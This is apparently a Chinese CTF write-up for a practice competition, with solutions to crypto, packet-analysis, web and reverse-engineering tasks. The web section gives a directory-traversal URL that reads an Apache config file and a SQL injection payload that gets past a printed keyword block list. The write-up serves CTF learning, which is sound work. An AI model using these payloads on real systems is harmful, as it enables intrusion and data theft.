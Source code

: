 ```yaml
---
layout: post
title:  "安恒西湖论剑周周练"
date:   2019-1-16 20:49:43 
author: co0ontty
categories: CTF ALL
tags: CTF ALL
describe: 安恒西湖论剑周周练wp
cover: 'https://i.loli.net/2019/04/04/5ca5ada158be8.jpg'
---
```

## CRYPTO

### 1.Ordinary keyboard  
变形后的凯撒加密 需要加上字符  

### 2.RSA  
工具地址（ https://github.com/Ganapati/RsaCtfTool.git ）
首先利用  python RsaCtfTool.py --publickey pub.key（公钥） --private 解出私钥，将私钥保存为任意格式文件    
然后使用  openssl rsautl -decrypt -in flag.enc（密文） -inkey 1.txt（私钥） -out 2.txt（输出答案） 解出flag 

## MISC
### 1.qr 
扫码直接提交答案即可 

### 2.wireshark 
需要分析登录信息，使用条件"http.request.method==POST"进行过滤得到答案

### 3.百里挑一 
首先使用wireshark导出http文件，发现有一部分图片，使用脚本分理处图片中的flag发现只有一半。  
使用wireshark筛选ftp数据。  
![avatar](/assets/img/posts/ah-1.png)  

发现文件使用的为被动模式传输，传输端口为38x256+111 =  9839（传输文件使用的端口） 
更改筛选条件为tcp，端口为 9839 
![avatar](/assets/img/posts/ah-2.png)  

追踪PSH,ACK流，导出原始数据为jpg文件格式（其他流同上步骤）  
![avatar](/assets/img/posts/ah-4.png)  

使用脚本调用exiftool分析得到答案  
```python
#coding=UTF-8
import os

imgs = os.listdir('.')

imgs = [img for img in imgs if '.jpg' in img]

for img in imgs:
	exif_dict = dict()
	exif = os.popen('exiftool ' + img).read()
	exif = exif.split('\n')
	for ex in exif:
		ex = ex.split(':')
		if len(ex) == 2:
			exif_dict[ex[0].strip()] = ex[1].split()
	if 'XP Comment' in exif_dict:
		print(exif_dict['XP Comment'])
```

## WEB 
### 1.WebScan 
利用目录遍历漏洞，访问http://101.71.29.5:10009/?act=about&file=/etc/httpd/conf/httpd.conf 即可获得flag  

### 2.刀塔 
源码泄露：http://101.71.29.5:10010/www.zip  

### 3.美男子 
源码及注释
```php

<?php
include 'global.php';

function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if(is_array($StrValue))
    {
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrtValue)==1){   
        print "holy shit!";
        exit();
    }      
} 

$filter = "union|select|from|where|join|sleep|benchmark|,|\(|\)";

foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}


if(!isset($_POST['key1']) || !isset($_POST['key2'])) {
    print <<<DBAPP

<img src='image/img.jpg' />
<!--index.phps-->
DBAPP;
    die;
}



$query = mysql_query("SELECT * FROM tb_ctf WHERE key1 = '{$_POST['key1']}'"); 
if(mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['key2'] == $_POST['key2']) {
        print $flag;
    }else{
        print "Error!";
        }
}else{
    print "Error!";
}

 
 
$sql="SELECT * FROM interest WHERE key1 = 'key1=ads' || 1 group by key2 with rollup limit 1 offset 1 #'";#答案等效语句,#  ->   注释掉另一个'

```   
```php
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)"; 
#过滤了and、select、from、where、union、join、sleep、benchmark、等参数后使用查询语句查询数据库
$sql="SELECT * FROM interest WHERE key1 = '{$_POST['key1']}'";
```
传递参数：      
```php
key1=ads' || 1 group by key2 with rollup limit 1 offset 1 # & key2 =  
```
'是对前面的'的封闭，然后利用||1将这个条件变成true过
group by,with rollup将pw归纳排序出来，用limit offset取出一条数据（题目判断有要求）
至于为啥offset 2，这个是试出来的，其实我们根本不可能知道with rollup会总结归纳出多少条信息，offset 2能过说明正确的pwd位于第三条信息


## REVERSE
### 1.Mysterious 
从DialogBoxParamA 函数中定位处理函数   
```java 
int __stdcall sub_401090(HWND hWnd, int a2, int a3, int a4)
{
  char v5; // [esp+50h] [ebp-310h]
  CHAR Text[4]; // [esp+154h] [ebp-20Ch]
  char v7; // [esp+159h] [ebp-207h]
  __int16 v8; // [esp+255h] [ebp-10Bh]
  char v9; // [esp+257h] [ebp-109h]
  int v10; // [esp+258h] [ebp-108h]
  CHAR String; // [esp+25Ch] [ebp-104h]
  char v12; // [esp+25Fh] [ebp-101h]
  char v13; // [esp+260h] [ebp-100h]
  char v14; // [esp+261h] [ebp-FFh]
 
  memset(&String, 0, 0x104u);
  v10 = 0;
  if ( a2 == 16 )
  {
    DestroyWindow(hWnd);
    PostQuitMessage(0);
  }
  else if ( a2 == 273 )
  {
    if ( a3 == 1000 )
    {
      GetDlgItemTextA(hWnd, 1002, &String, 260);
      strlen(&String);
      if ( strlen(&String) > 6 )
        ExitProcess(0);
      v10 = atoi(&String) + 1;
      if ( v10 == 123 && v12 == 120 && v14 == 122 && v13 == 121 )
      {
        strcpy(Text, "flag");
        memset(&v7, 0, 0xFCu);
        v8 = 0;
        v9 = 0;
        _itoa(v10, &v5, 10);
        strcat(Text, "{");
        strcat(Text, &v5);
        strcat(Text, "_");
        strcat(Text, "Buff3r_0v3rf|0w");
        strcat(Text, "}");
        MessageBoxA(0, Text, "well done", 0);
      }
      SetTimer(hWnd, 1u, 0x3E8u, TimerFunc);
    }
    if ( a3 == 1001 )
      KillTimer(hWnd, 1u);
  }
  return 0;
}
```
输入的字符不能超过6位  要为6位   

```java 
if ( v10 == 123 && String[3] == 120 && String[5] == 122 && String[4] == 121 ) 
```
&String+1 = 123 => &String =122   
String[3] => x  
String[4] => y  
String[5] => z  

### 2.findKey   
flag n0_Zu0_n0_die 思路待整理  
